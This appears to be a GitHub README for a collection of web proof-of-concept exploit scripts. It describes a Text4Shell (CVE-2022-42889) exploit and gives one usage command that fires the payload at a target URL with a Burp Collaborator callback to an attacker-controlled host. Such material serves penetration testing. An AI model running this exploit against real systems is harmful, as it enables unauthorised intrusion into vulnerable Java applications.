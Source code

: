 # Web Exploits

POC exploit scripts for web pentesting


## Usage/Examples

Text4Shell A Vulnerability in Java library Apache Commons Text (CVE-2022-42889) https://infosecwriteups.com/text4shell-poc-cve-2022-42889-f6e9df41b3b7

- Replace the URL containing the {{exploit}} placeholder, which will be replaced with the payload. Replace <collaborator_url> with your controlled URL from Burp, utilized as part of the payload.

```bash
python3 text4shell.py -u http://localhost/text4shell/attack?search={{exploit}} -c <collaborator URL>
```
